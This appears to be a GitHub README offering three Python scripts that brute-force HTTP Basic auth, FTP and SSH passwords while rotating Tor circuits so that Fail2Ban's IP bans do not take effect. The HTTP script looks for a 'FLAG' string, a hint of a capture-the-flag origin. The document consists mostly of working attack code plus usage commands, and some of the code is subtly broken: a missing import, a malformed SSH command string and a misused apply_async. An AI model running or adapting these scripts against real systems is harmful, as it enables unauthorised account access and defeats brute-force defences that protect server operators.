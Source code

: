 # Fail2ban bypass using tor

## **Fail2Ban** reads log file that contains password failure report and bans the corresponding IP addresses using firewall rules. It updates firewall rules to reject the IP address. That means that if we send every request with a different IP Address that results in bypassing this firewall.

### For the HTTP Bruteforcer we are using random tor proxies per request using requests-session and that results in bypassing fail2ban. This script uses multiprocessing so we can have faster results.

```python
import random
from multiprocessing import Pool
import requests
import base64
import re

host, port = 'localhost', 1337
HOST = 'http://%s:%d/' % (host, port)

username = b'username'

to_brute_force = ["{0:03}".format(i) for i in range(500)]

def execute(index):

    payload = base64.b64encode(username + b':' + bytes(index, 'utf-8'))
    session = requests.session()
    creds = str(random.randint(10000,0x7fffffff)) + ":" + "youtorpassword"

    session.proxies = {
        'http': 'socks5h://{}@localhost:9050'.format(creds),
        'https': 'socks5h://{}@localhost:9050'.format(creds)
    }

    req = session.get(HOST, headers={
        'Authorization': 'Basic '+payload.decode('utf-8')
    })

    if req.status_code == 200:
        print(re.search('FLAG = (.*)', req.text).group(0))


with Pool(processes=16) as pool:
    for i in to_brute_force:
        pool.apply_async(execute(str(i)))

    pool.close()
    pool.join()
```

### For the FTP Bruteforcer we are using random tor proxies per request using proxychains and that results in bypassing fail2ban. This script uses multiprocessing so we can have faster results.

```python
import ftplib
from threading import Thread
import queue
import os

HOST, PORT = 'localhost', 21

q = queue.Queue()
n_threads = 10

USERNAME = 'username'

flag = True
to_brute_force = ['{0:03}'.format(i) for i in range(500)]

def execute():

    global q
    
    while True:
        os.system('service tor reload')
        index = q.get()
        server = ftplib.FTP()
        print('[!] Trying ' +  str(index))
    
        try:
            server.connect(HOST, PORT, timeout=5)
            server.login(USERNAME, str(index))
    
        except ftplib.error_perm:
            pass
    
        else:
            print('[+] Found credentials: ')
            print(f'\tUser: {USERNAME}'+ str(index))
            print(f'\tPassword: {str(index)}{Fore.RESET}')
            
            with q.mutex:
                q.queue.clear()
                q.all_tasks_done.notify_all()
                q.unfinished_tasks = 0

        finally:
            q.task_done()


for i in to_brute_force:
    q.put(i)

for t in range(n_threads):
    thread = Thread(target=execute)
    thread.daemon = True
    thread.start()

q.join()
```

### For the SSH Bruteforcer we are using random tor proxies per request using proxychains and that results in bypassing fail2ban. `StrictHostKeyChecking=no` is used to make our attempts without strict host key checking.

```python
import os

HOST, PORT = 'localhost', 22

USERNAME = 'username'

to_brute_force = ['{0:03}'.format(i) for i in range(500)]

try:
    for index in to_brute_force:
        os.system('service tor reload')
        print('Trying with: ' + index)
        
        execute = 'proxychains sshpass -p ' + str(index) + ' ssh -o StrictHostKeyChecking=no' + f'{USERNAME}@{HOST} -p {PORT}'
        os.system(execute)

except (KeyboardInterrupt, SystemExit):
    exit()
```

# Usage:

### For the HTTP Bruteforcer use:

```bash
$ python http_fail2ban_bypass.py
```

### For the FTP Bruteforcer use:

```bash
$ sudo proxychains python ftp_fail2ban_bypass.py
```

### For the SSH Bruteforcer use:

```bash
$  sudo proxychains ssh_fail2ban_bypass.py
```